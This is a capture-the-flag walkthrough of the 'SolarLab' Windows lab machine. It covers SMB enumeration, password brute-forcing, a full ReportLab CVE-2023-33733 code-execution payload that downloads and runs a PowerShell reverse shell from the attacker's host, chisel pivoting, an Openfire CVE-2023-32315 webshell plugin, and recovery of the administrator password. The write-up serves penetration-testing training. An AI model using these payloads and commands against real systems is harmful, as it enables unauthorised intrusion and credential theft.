---------------------------
| INFO|  |
|----|----|
|CTF NAME|**SolarLab**|
|Operating System| **Windows**|
|Diffculty|   **Medium**  |
|Retire date| 21 Sep 2024
|Points |**45**|
----------------------------------
# Description
SolarLab begins with an SMB share containing a spreadsheet of usernames and passwords. By exploiting a website that displays distinct error messages for incorrect usernames versus wrong passwords, combined with analyzing the username format, I was able to identify valid credentials.

 Once logged in, I leveraged CVE-2023-33733 in the reportlab PDF generation process to achieve Remote Code Execution (RCE) and obtain a shell.

For lateral movement,  to escalate privileges to the openfire user,  method takes advantage of CVE-2023-32315 in OpenFire to create a user and upload a malicious plugin for RCE.
 With this access, I decrypted a password from the OpenFire configuration, which  served as the administrator's password. 

-------------------------------
# INFORMATION GATHERING

Initial nmap scan with default scripts
```bash
sudo nmap -sV  -oN nmap/solarlab_full 10.10.11.16 -p-

Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-16 14:54 EDT
Nmap scan report for 10.10.11.16
Host is up (0.094s latency).
Not shown: 65529 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
6791/tcp open  hnm
7680/tcp open  pando-pub

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-17T18:56:05
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.15 seconds
```
Fingerprinting OS using smbmap would indicate the machine is a windows server 2019.

```bash
smbmap -H solarlab.htb -v
```

# ENUMERATION
---------------------------------
### SMB
Searching through the discovered smb service, there was one share with a document file:
```bash
smb -H 10.10.11.16 -s Documents -u guest -r
[+]                                                   
        Documents                                               READ ONLY
        fr--r--r--            12793 Fri Nov 17 07:34:54 2023    details-file.xlsx
-----------------------------------------------------------------------------------
```
download the  file
```
smbmap  -H 10.10.11.16 -s Documents -u guest -p "" -r -A  details-file.xlsx  
```

 it was clear that these were some login credentials related to a domain

Nothing else was discovered on SMB. its time to enumerate port 80.

-------------------------------------
###  Port 80
The default root appeared to be a static site with nothing interesting, so I started looking at other open ports and discovered a subdomain running on port 6791: 
`http://report.solarlab.htb:6971`

I initially started by identifying which users from the spreadsheet existed. Testing with usernames like "blake.byte" or "blake byte" or even a bogus username produced a different error message compared to testing with "claudiaS" or "alexanderK", confirming that Alex and Claudia exist but the passwords were incorrect.
### bruteforcing with intruder
I attempted bruteforcing the passwords for ClaudiaS and AlexanderK using Intruder in Clusterbomb attack mode, trying different combinations from the spreadsheet file. 

 none of the password lists worked for any user. I returned to the document and observed a pattern in the naming convention. Two users had shortened names, e.g., ClaudiaS and AlexanderK. The third user, Blake Byte, could follow the same pattern.

Trying the same password list with "blakeB" as the login username worked:
```
    * PASS: ThisCanB3typedeasily1@
    * USER: blakeb
```
## Enumerating Reporthub
This site offers some functionality, and the "Training Request" section leads to a form. 

After clicking the "Generate PDF" button, I was redirected to a PDF document. The image gets reflected in the PDF, indicating a possible XSS vulnerability. 

I tried simple payloads to test for injection, uploading script files with .html and .svg formats, but no luck. I then downloaded the PDF document and ran exiftool on it:
```bash
exiftool output.pdf 
ExifTool Version Number         : 12.40
File Name                       : output.pdf
Directory                       : .
File Size                       : 202 KiB
File Modification Date/Time     : 2024:09:12 15:54:21-04:00
File Access Date/Time           : 2024:09:12 15:54:22-04:00
File Inode Change Date/Time     : 2024:09:12 15:54:21-04:00
File Permissions                : -rwxrwx---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Author                          : (anonymous)
Create Date                     : 2024:05:17 22:53:02-02:00
Creator                         : (unspecified)
Modify Date                     : 2024:05:17 22:53:02-02:00
Producer                        : ReportLab PDF Library - www.reportlab.com
Subject                         : (unspecified)
Title                           : (anonymous)
Trapped                         : False
Page Mode                       : UseNone
Page Count                      : 1
```
The library used to make it is ReportLab.

Searching for “reportlab exploit” turns up information about CVE-2023-33733, a remote code execution vulnerability in ReportLab:


## Exploiting ReportLab

Navigating to the exploit PoC on GitHub, the exploit code was:
```html
<para><font color="[[[getattr(pow, Word('__globals__'))
['os'].system('ping #attacker-ip') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1,
 'startswith': lambda self,
  x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
```


Attempting to send the exploit through the form field
throws an error in your face indicating that the character limit for the form was exceeded.

one way to solve this would be to try and shorten the length of every variable, or to try different parameters
after intercepting with burp and trying different places, 
placing the exploit under `training_request` option bypasses this restriction.


## Blake shell
after confirming the connection it's time to get a shell!
this part involves 3 steps:

- setup python server hosting the ConPty shell:
```bash
python3 http.server 80   #rev.ps1 is in the same directory
```

- set up a listening session on a separate tab:
```bash
stty raw -echo; (stty size; cat) | nc -lvnp PORT
```

- add powershell command to download and execute my shell:
```powershell
powershell IEX(IWR http://10.10.16.14/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.16.63 9001
```
so the final exploit can be something like this:
```
<para><font color="[[[getattr(pow, Word('__globals__'))
['os'].system('powershell IEX(IWR http://10.10.16.14/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.16.63 9001') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1,
 'startswith': lambda self,
  x: 1 == 0,
   '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated',
    self.mutated - 1) },
     '__hash__': lambda self: hash(str(self)), },
      ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
```

sending in the repaeter tab, i got a 503 from the web server
 and a powershell session as the blake user.
 
 ------------------------------------------------
## Initial Foothold
checking `Users` folder, i found `openfire`, `Administrator`, and `blake` (me), 

the user flag was found under `C:\Users\blake\Desktop\flag.txt`

Nothing else interesting to me was found.
Download privilege escalation tools:


getting winpeas
```
wget "http://10.10.16.97/winPEASany.exe" -OutFile 
"C:\Users\blake\Desktop\winpeas.exe"
```
nothing interesting was found through winpeas
aside from a service ran by the openfire user and a web portal at localhost:9090.


```
Openfire(Openfire)["C:\Program Files\Openfire\bin\openfire-service.exe"] - Autoload
```
openfire appears to be a service account for some software.
## Lateral Movement

Navigating to `C:\Program Files\Openfire\` folder was denied by security controls.
by port forwarding with chisel i was able to access the login portal at localhost:5050 for openfire.
```
.\chisel.exe client 10.10.16.14:4321 R:9090:127.0.0.1:9090   #victim
chisel server --socks5 --reverse -p 4321                     #attacker
```

open a browser tab and go to localhost:9090
 
trying default credentials did not work.
lets google for CVEs, searching for "openfire exploit" reveals a nasty CVE:
 https://github.com/miko550/CVE-2023-32315#step
  a user generator exploit along with a malicious plugin that does RCE. 
  steps to perform are included in the github link:
1. Run exploit
3. login with newly added user 
5. go to tab plugin > upload plugin `openfire-management-tool-plugin.jar`
6. go to tab server > server settings > Management tool  
8. Access webshell with password "123"


login with the newly added user:

follow the other steps to upload the plugin
 go to tab plugin > upload plugin `openfire-management-tool-plugin.jar`


go to tab server > server settings > Management tool  
Access webshell with password "123"

get powershell as openfire with the same technique:


----------------------------
## SQL Analysis
now i have access to `/openfire/` Folder mentioned before.
i found some db scripts in the `/openfire/embedded-db` folder 
the `openfire.script` file included table and user creation queries for the DB.
by analyzing the file and searching for `CREATE` and `INSERT` queries with "password" search term i found a query for creating T
the users table, and insert query for inserting an admin user.

the query above shows the schema for inserting users, 
```sql
CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),
ITERATIONS INTEGER,
(+)
PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255)
(+)
,NAME VARCHAR(100)
,EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))
```
so the table `OFUSER` holds the accounts,
the query for inserting users is like this:
(name,`key`,serverkey, salt, `plaintext password`, `encrypted password`....etc) 

Looking further i discovered a query for creating the admin user.


With encrypted password only i search for ways to decrypt the password, googling "openfire decrypt db password"

i went to check each github repo and found 2 scripts, all the scripts required a key for decrypting passwords,
after further digging through CVE details, i found out that there should be a table holding the encryption key.

column named `passwordkey` in the  `ofproperty ` table was found. 
```
type .\openfire.script | findstr "OFPROPERTY"
```


so now that i have the encrypted password:
```
*Encrypted-pass:
becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac
62d4e89b2856b0289b365f3069802e59d442
*Key:
hGXiFzsKaAeYLjn  
```
i used the tool from the second link to decrypt the password:
```
java -<encrypted-password> <key>	
```

We found it!:
```
ThisPasswordShouldDo!@ 
```
-----------------------------------
## SYSTEM SHELL

I tried to login to the openfire page but it didnt work out
Lets try to use it as the administrator password for the machine itself using smbexec:
```
impacket-smbexec administrator:'<pw>'@<victim-ip
```

root flag was found under
 `Administrator\Desktop\root.txt`

 
 This was fun.